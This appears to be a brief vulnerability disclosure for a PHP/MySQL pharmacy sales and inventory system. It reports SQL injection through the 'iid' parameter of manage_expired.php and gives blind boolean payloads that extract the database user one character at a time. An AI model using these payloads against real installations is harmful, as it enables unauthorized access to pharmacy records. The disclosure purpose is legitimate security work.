

# Pharmacy Sales and Inventory System using PHP/MySQL with Source Code - SQL Injection

The environment

[https://www.sourcecodester.com/php/14500/pharmacy-sales-and-inventory-system-using-phpmysql-source-code.html](https://www.sourcecodester.com/php/14500/pharmacy-sales-and-inventory-system-using-phpmysql-source-code.html "https://www.sourcecodester.com/php/14500/pharmacy-sales-and-inventory-system-using-phpmysql-source-code.html")

In `pharmacy/manage_expired.php`, it was found that SQL statements are executed directly by concatenating `$_GET['iid']`.

Access: [http://127.0.0.1/manage\_expired.php?iid=1](http://127.0.0.1/manage_expired.php?iid=1 "http://127.0.0.1/manage_expired.php?iid=1")

Analyzing the code, the composed SQL statement is: `UPDATE inventory SET expired_confirmed = 1 WHERE id = 1`.

Construct Payload

<http://127.0.0.1/manage_expired.php?iid=>`1 and 1=2`

There is no data output below. Attempting to read the first character of the current user. The current user is root, and its ASCII value is 114

<http://127.0.0.1/manage_expired.php?iid=>`1 and ascii(substring(user(),1,1))=114`

<http://127.0.0.1/manage_expired.php?iid=>`1 and ascii(substring(user(),1,1))=113`

